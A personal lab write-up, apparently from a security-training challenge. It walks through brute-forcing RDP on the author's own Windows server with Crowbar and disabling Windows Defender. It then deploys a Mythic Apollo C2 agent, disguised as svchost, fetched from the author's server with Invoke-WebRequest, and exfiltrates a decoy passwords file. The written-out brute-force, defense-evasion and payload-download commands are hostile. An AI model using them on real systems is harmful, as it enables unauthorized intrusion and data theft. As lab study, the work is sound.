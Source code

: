 # Day 21: Mythic Agent Setup
## Objective
In this section, I will learn how to perform a brute force attack, generate a Mythic agent, and establish C2 (command & control).

## Steps
Firstly, if you can remember, we're going to extract passwords from a file on our Windows server called "passwords.txt." This is for demonstration purposes which is why it's referred to as a "fake" file in the attack diagram. Nonetheless, this will serve as data we will try to exfiltrate from the machine.

This time around, instead of going into the console via Vultr, I'm just going to RDP into the machine. I have no clue why I couldn't figure this out sooner, but here we are! I've learned a lot from this challenge, that's for sure.

<p align="center"><img src="https://i.imgur.com/WugLTVP.png"></p>
<p align="center"><i>Ref 1: Using RDP to connect to our Windows machine to create a file called "passwords.txt" that will serve as our target for the brute force attack we're going to perform!</i></p>
<br>

We're done with the Windows instance for now. Let's go to our Kali machine and start looking at the resources we have on hand.

Kali Linux comes with password dictionaries. We can find them using these commands:

<p align="center"><img src="https://i.imgur.com/mFWVBOH.png"></p>
<p align="center"><i>Ref 2: Preinstalled password dictionaries on Kali.</i></p>
<br>

We're going to be using `rockyou.txt`. As a proof of concept, I'm going to put my Windows machine's password into this text file. I know it's cheating, but since the purpose of this challenge is to learn how to brute force machines and how such attacks work, this is fine for now. As a note, I'm only going to use the top 50 passwords since the actual file is quite large. I used `head -50 rockyou.txt > /home/dsuyu/dsuyu-wordlist.txt` to save those top 50 (+ my Windows password) into the wordlist we'll use for the attack.

We'll be using Crowbar to perform an RDP brute force attack over to our Windows machine. To do this, I used the `crowbar -b rdp -u Administrator -C dsuyu-wordlist.txt -s 155.138.242.206/32` command. `-b` specifies the RDP service, `-u` is the user account, `-C` is the source of our passwords that we want to try to authenticate with, and `-s` specifies the specific IP address I want to use. `/32` means we're only interested in this specific IP address. I won't show the password for now, since somebody seeing the password while I'm still trying to complete the challenge would be problematic, to say the least.

<p align="center"><img src="https://i.imgur.com/M9g2wgK.png"></p>
<p align="center"><i>Ref 3: Crowbar successfully brute-forced the machine.</i></p>
<br>

Now that we have our credentials, we can RDP from our Kali machine by using `xfreerdp`. Running the command `xfreerdp /u:Administrator /p:[password] /v:155.138.242.206:3389`, we can RDP into the machine.

<p align="center"><img src="https://i.imgur.com/8iFtNp0.png"></p>
<p align="center"><i>Ref 4: I've successfully RDP'd into the machine!</i></p>
<br>

Looking at our attack diagram, once we've established a connection, the next step is to do some recon. For example, we can run the command `net user Administrator` to learn more about our privileges. In a real scenario, an attack might compromise an account, say, for example, "Steven," and they would have to run a command like `net user` to figure out what privileges they have or to what group they belong to. 

Once we've done reconnaissance, we can move to Phase 3: Defense Evasion. I'll turn off Windows Defender via the command line. We could also do this the BORING way by going into Settings and turning everything off.

<p align="center"><img src="https://i.imgur.com/ulBvkwF.png"></p>
<p align="center"><i>Ref 5: Disabling real-time monitoring from the command line.</i></p>
<br>

After Phase 3 follows Phase 4: Execution. In Phase 4, we need to create our Mythic agent and payloads. Any configuration needs to be done within the Mythic CLI.

We're going to be using the Apollo agent for our purposes. We can install it using the command `./mythic-cli install github https://github.com/MythicAgents/Apollo.git`. You can find Apollo's documentation [here](https://github.com/MythicAgents/Apollo).

<p align="center"><img src="https://i.imgur.com/MDsXRQa.png"></p>
<p align="center"><i>Ref 6: Apollo now appears within our web GUI under "C2 profiles and payload types."</i></p>
<br>

Now, we can install a C2 profile. What is a C2 profile? A C2 profile provides a way to get messages off the wire and forward them to the Mythic server. In our case, we'll use the HTTP profile.

<p align="center"><img src="https://i.imgur.com/9FGS1kR.png"></p>
<p align="center"><i>Ref 7: Our HTTP C2 profile has been installed.</i></p>
<br>

Now how do we create a payload? Easy, just select the hazard icon at the top and make a new payload. We want the C2 profile to call back to our Mythic server, so we'll modify the callback host to be `http://207.148.3.13`.

<p align="center"><img src="https://i.imgur.com/Wr5zoYm.png"></p>
<p align="center"><i>Ref 8: Configuring our C2 profile.</i></p>
<br>

Now that we've made the payload and it's ready to download, we'll grab that download link and use `wget` to download it to our server.

<p align="center"><img src="https://i.imgur.com/CXR5uKH.png"></p>
<p align="center"><i>Ref 9: I've downloaded the payload onto our Mythic server, and I've renamed it so it looks less conspicuous.</i></p>
<br>

Cool! I made a directory called `1` and moved our new executable into there. Then, I started an HTTP server using Python with the `python3 -m http.server 9999` command on our Mythic server. Now that we're running that HTTP server, we can download the payload executable onto the compromised Windows server from our HTTP server by running `Invoke-WebRequest -Uri http://207.148.3.13:9999/svchost-dsuyu.exe -OutFile "C:\Users\Public\Downloads\svchost-dsuyu.exe"` from Windows PowerShell via our RDP connection to the Windows server.

<p align="center"><img src="https://i.imgur.com/VvBCRh3.png"></p>
<p align="center"><i>Ref 10: Downloading the payload onto our Windows server so we can establish a command and control connection.</i></p>
<br>

In other words, the command downloads the executable from our remote Mythic server. Executing the file means we're now receiving callbacks from our agent to our Mythic server. Effectively, the Windows machine is totally pwned and it's all over from here. Now, using our web GUI, we can run commands such as `ifconfig`, `whoami`, and most importantly, `download`. We're going to download that `passwords.txt` file we made earlier.

<p align="center"><img src="https://i.imgur.com/fZKlLww.png"></p>
<p align="center"><i>Ref 11: Within our C2 profile configuration, I enabled a few commands that we'd be able to run once we started receiving callbacks. Here, I'm running those commands.</i></p>
<br>

Notably, there were a few ports we had to open to make this all work out. For example, we had to open port 80 on our Mythic server so that the two servers could actually communicate over HTTP. I also allowed port 9999 on our Mythic server. Like before, we have to make firewall rules not only for the Vultr firewalls but also for our server firewalls.

## Summary
In this section, I conducted my own brute force attack using Kali Linux and Crowbar, RDP'd into the compromised Windows server, and installed my Mythic agent along with a Mythic server. Using the Mythic server, I was able to run an HTTP server using Python so that I could install the payload from within my Windows server. Once the payload was installed and running, I could use the Mythic web GUI to run commands. I established a command and control connection thanks to the Apollo agent and HTTP C2 profile.



